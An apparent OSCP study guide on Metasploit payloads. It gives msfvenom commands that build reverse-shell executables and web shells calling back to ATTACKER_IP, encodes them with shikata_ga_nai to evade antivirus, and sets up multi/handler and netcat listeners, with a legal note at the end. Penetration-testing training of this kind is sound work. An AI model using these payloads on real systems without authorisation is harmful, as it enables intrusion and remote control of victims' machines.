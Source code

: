 # Metasploit Payloads

Metasploit payloads are the components that execute after a successful exploit. This guide covers various payload types, generation, and usage in the OSCP exam.

## 📋 Table of Contents
1. [Payload Types](#payload-types)
2. [Generating Payloads](#generating-payloads)
3. [Staged vs Non-Staged](#staged-vs-non-staged)
4. [Payload Encoding](#payload-encoding)
5. [Handlers](#handlers)
6. [Practice](#-practice)

## Payload Types

### Inline (Non-Staged)
- Single, self-contained payload
- Larger in size
- More reliable
- Example: `windows/shell_reverse_tcp`

### Staged
- Small stager that downloads the actual payload
- Smaller initial payload
- Multiple network requests
- Example: `windows/shell/reverse_tcp`

### Meterpreter
- Advanced, feature-rich payload
- Extensible with extensions
- Stealthy (runs in memory)
- Example: `windows/meterpreter/reverse_tcp`

## Generating Payloads

### Basic Payload Generation
```bash
# Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > shell.exe

# Linux reverse shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf > shell.elf

# Web payloads
msfvenom -p php/reverse_php LHOST=ATTACKER_IP LPORT=4444 -f raw > shell.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f raw > shell.jsp
```

### Output Formats
```bash
# Windows
-f exe -o shell.exe
-f dll -o shell.dll
-f vba -o shell.vba

# Web
-f raw -o shell.php
-f war -o shell.war
-f jsp -o shell.jsp

# Scripting
-f py -o shell.py
-f pl -o shell.pl
```

## Staged vs Non-Staged

### Non-Staged (Inline)
```bash
# Windows
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > shell.exe

# Linux
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf > shell.elf
```

### Staged
```bash
# Windows
msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > shell_staged.exe

# Linux
msfvenom -p linux/x86/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf > shell_staged.elf
```

## Payload Encoding

### Basic Encoding
```bash
# List encoders
msfvenom -l encoders

# Encode a payload
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -e x86/shikata_ga_nai -f exe > encoded_shell.exe
```

### Multiple Encoding
```bash
# Multiple iterations of encoding
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > multi_encoded.exe
```

### Bad Character Avoidance
```bash
# Avoid specific characters
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -b "\x00\x0a\x0d" -f exe > badchars_avoided.exe
```

## Handlers

### Multi/Handler Module
```msf
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
exploit -j
```

### Manual Listener
```bash
# Netcat listener
nc -nvlp 4444

# Socat listener
socat TCP-LISTEN:4444 -
```

## 🛠 Tools

### Payload Generation
- **msfvenom**: Built-in Metasploit payload generator
- **Unicorn**: PowerShell attack tool
- **Veil**: AV-evasion framework
- **Shellter**: Dynamic shellcode injector

### Payload Delivery
- **SimpleHTTPServer**: Python web server
- **PowerShell WebClient**: Download and execute
- **TFTP**: For network transfers
- **SMB**: Windows file sharing

## 📚 Resources
- [Metasploit Unleashed - Payloads](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [HackTricks - Payloads](https://book.hacktricks.xyz/shells/shells/)

## 🎯 Practice
1. Generate different types of payloads for various platforms
2. Test encoding and evasion techniques
3. Set up handlers for different payload types
4. Practice delivering payloads through different methods

## ⚠️ Legal Note
Only generate and use payloads on systems you own or have explicit permission to test. Unauthorized testing is illegal.
